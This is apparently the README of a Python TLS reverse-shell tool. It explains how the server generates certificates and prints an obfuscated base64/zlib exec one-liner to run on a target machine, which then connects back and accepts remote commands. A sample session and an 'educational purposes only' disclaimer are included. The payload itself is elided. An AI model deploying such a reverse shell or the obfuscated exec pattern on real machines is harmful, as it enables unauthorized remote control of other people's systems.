 
# TLS Reverse Shell

This repository contains a Python-based TLS server and a generated client script designed for secure remote communication. The server uses a self-signed SSL certificate to ensure encrypted communication. The client script is dynamically generated and compressed for easy deployment.

---

## **Features**
- Generates RSA keys and a self-signed SSL certificate.
- Dynamically creates a one-liner client script.
- Encrypted communication using TLS.
- Ability to control the client remotely.
- Graceful server shutdown with confirmation prompt.

---

## **Requirements**
### **Dependencies**
- Python 3.6+
- Libraries:
  - `pycryptodome`
  - `zlib` (standard library)
  - `ssl` (standard library)
  - `socket` (standard library)
  
Install dependencies with:
```bash
pip install pycryptodome
```

### **Other Tools**
- OpenSSL (pre-installed on most systems)

---

## **How to Use**

### **1. Setup**
1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/tls-reverse-shell.git
   cd tls-reverse-shell
   ```

2. Install the required libraries:
   ```bash
   pip install pycryptodome
   ```

---

### **2. Running the Server**
Run the server script:
```bash
python server.py
```

When prompted, enter the server's IP address (e.g., `192.168.1.11`).

The server will:
- Generate or reuse existing RSA keys and a self-signed SSL certificate.
- Provide a one-liner Python client script.

---

### **3. Deploying the Client**
Copy the one-liner client script from the server output. Run it on the target client machine:
```bash
python -c "import zlib,base64;exec(zlib.decompress(base64.b64decode('...')))"
```

The client will connect back to the server.

---

### **4. Using the Shell**
- After the client connects, enter commands into the shell to execute them on the client machine.
- To end the session, type:
  ```plaintext
  exit
  ```

- The server will ask for confirmation to shut down:
  ```plaintext
  [?] Do you want to shut down the server? (y/n)
  ```

  - If you confirm with `y`, the server shuts down, freeing the port.
  - If you respond with `n`, the current session ends, but the server keeps listening for new connections.

---

## **Example Workflow**
1. Start the server:
   ```bash
   python server.py
   ```
   Example output:
   ```plaintext
   [*] Server listening on 192.168.1.11:443
   [--- One-Liner Python Client Code ---]
   python -c "import zlib,base64;exec(zlib.decompress(base64.b64decode('...')))"
   [--- End of Client Code ---]
   ```

2. Deploy and run the client script on another machine:
   ```bash
   python -c "import zlib,base64;exec(zlib.decompress(base64.b64decode('...')))"
   ```

3. Execute commands on the client:
   ```plaintext
   Shell> pwd
   /home/client_user
   Shell> ls
   Desktop  Documents  Downloads
   Shell> exit
   [?] Do you want to shut down the server? (y/n): n
   [*] Session ended, but the server is still running.
   ```

---

## **File Structure**
```
.
├── server.py           # Main server script
├── keys/               # Directory for storing RSA keys and SSL certificates
│   ├── private_key.pem # RSA private key
│   ├── public_key.pem  # RSA public key
│   └── server.crt      # Self-signed SSL certificate
```

---

## **Security Notes**
- This project is **for educational purposes only**. Do not use it for unauthorized access to systems or networks.
- Always obtain permission before deploying the client script on any machine.
- Consider replacing the self-signed certificate with one from a trusted Certificate Authority for real-world use.

---